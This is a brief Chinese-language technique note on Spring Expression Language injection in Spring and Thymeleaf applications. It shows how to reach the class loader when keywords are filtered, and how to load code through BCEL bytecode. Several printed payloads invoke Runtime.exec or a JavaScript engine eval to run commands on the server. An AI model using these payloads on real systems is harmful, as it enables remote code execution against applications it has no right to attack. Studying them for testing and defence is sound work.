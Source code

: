 ![image.png](assets/1698895942-b11d4a5db26c7b4818dd2ec6c509e358.png)

## 通过各种方法获取AppClassloader

我的纯度在你之上，假如ban掉了一些关键字，我们如何获取classloader成为了问题  
有如下几种方法。

```php
T(org.springframework.expression.Expression).getClass().getClassLoader()
#thymeleaf 情况下

T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
#web服务下通过内置对象

{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}

username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

只要能获取到都是可以的。

## Bcel字节码

这东西其实都不陌生。

```php
T(com.sun.org.apache.bcel.internal.util.JavaWrapper)._main({"BCEL"})}
```
